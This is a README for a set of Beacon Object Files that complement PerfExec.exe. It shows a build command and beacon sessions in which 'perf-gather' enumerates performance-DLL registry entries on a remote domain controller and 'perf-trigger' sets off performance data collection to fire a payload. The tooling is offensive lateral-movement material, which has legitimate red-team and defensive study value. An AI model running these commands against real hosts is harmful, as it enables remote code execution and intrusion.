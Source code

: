 # PerfExec BOF Tooling
BOF tooling to complement `PerfExec.exe`

### Compiling
Requires `mingw-w64`
```
make
```

### Enumeration
The `perf-gather` BOF can be used to enumerate service performance DLL info from the registry (local or remote)
```
beacon> perf-gather earth-dc.marvel.local
[*] Gathering performance data from the registry on earth-dc.marvel.local
[+] host called home, sent: 4843 bytes
[+] received output:
[*] Target: earth-dc.marvel.local
[*] Enumerating Services subkeys...

[+] HKLM\SYSTEM\CurrentControlSet\Services\.NET CLR Data\Performance
 |_ PerfIniFile: _DataPerfCounters_d.ini
 |_ Library: %systemroot%\system32\netfxperf.dll
 |_ Open: OpenPerformanceData
 |_ Collect: CollectPerformanceData
 |_ Close: ClosePerformanceData

 ...
```

### Trigger
The `perf-trigger` BOF can trigger performance data collection (similar to `PerfExec.exe diagrun=true`)

```
beacon> perf-trigger "DNS" "Total Query Received" earth-dc.marvel.local
[*] Triggering performance data collection on earth-dc.marvel.local
[+] host called home, sent: 4853 bytes
[+] received output:
[*] Target: earth-dc.marvel.local
[*] Object: DNS
[*] Counter: Total Query Received

[!] PdhAddCounterA failed with error code: -1073738824
[!] Payload may still have triggered
```

The pre-existing `wmi_query` [BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) can be leveraged to trigger collection using WMI